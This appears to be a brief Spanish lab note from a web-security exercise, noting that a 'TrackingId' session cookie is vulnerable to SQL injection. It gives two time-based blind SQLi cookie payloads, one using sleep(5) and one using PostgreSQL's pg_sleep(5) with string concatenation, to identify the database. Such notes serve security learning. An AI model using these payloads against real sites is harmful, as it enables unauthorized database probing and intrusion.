 
La cookie de session "TrackingId"  es vulnerable a SQLI, podemos consultar la cheat sheet para ver tipo de base de datos a utilizar

* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' and sleep(5)-- -
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' ||pg_sleep(5)-- - (es postgresql es con este tipo de concatenacion)
